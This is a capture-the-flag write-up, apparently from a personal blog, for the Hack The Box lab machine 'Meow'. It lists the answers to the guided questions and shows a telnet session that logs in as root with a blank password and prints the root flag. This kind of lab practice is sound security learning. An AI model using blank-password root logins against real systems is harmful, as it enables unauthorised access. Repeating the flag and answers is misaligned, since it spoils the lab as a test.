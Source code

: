 ```yaml
---
title: 🔵 HTB /  Meow
date: 2022-09-22
categories: [HackTheBox, Machines]
tags: [telnet]
---
```


What does the acronym VM stand for?

`Virtual Machine`

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

`terminal`

What service do we use to form our VPN connection into HTB labs?

`openvpn`

What tool do we use to test our connection to the target with an ICMP echo request?

`ping`

What is the name of the most common tool for finding open ports on a target?

`nmap`

What service do we identify on port 23/tcp during our scans?

`telnet`

What username is able to log into the target over telnet with a blank password?

`root`

Submit root flag

```bash
$ telnet <ip>
...

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
